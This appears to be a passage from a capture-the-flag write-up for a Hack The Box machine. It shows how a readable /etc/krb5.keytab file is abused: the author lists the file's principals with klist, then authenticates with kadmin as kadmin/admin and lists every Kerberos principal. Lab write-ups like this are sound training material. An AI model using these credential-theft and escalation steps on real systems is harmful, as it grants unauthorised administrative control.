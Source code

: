 ```
/usr/local/bin/log_backup.sh
/etc/krb5.keytab
```

- The file `/etc/krb5.keytab` looks interesting
  - https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5/doc/krb5-install/The-Keytab-File.html
  - `All Kerberos server machines need a keytab file, called /etc/krb5.keytab, to authenticate to the KDC. The keytab file is an encrypted, local, on-disk copy of the host's key. The keytab file, like the stash file (Create the Database) is a potential point-of-entry for a break-in, and if compromised, would allow unrestricted access to its host. The keytab file should be readable only by root, and should exist only on the machine's local disk. The file should not be part of any backup of the machine, unless access to the backup data is secured as tightly as access to the machine's root password itself. `
  - We can list the principals
    - https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-user/What-is-a-Kerberos-Principal_003f.html
    - The `kadmin` was added with `changepw` and `admin` privileges
```
[admin@srv01 home]$ klist -k
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
```

- Since we can read the `keytab` file, we can use any of the principals listed in it
  - [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html)
```
[admin@srv01 home]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:  list_principals
K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB
```
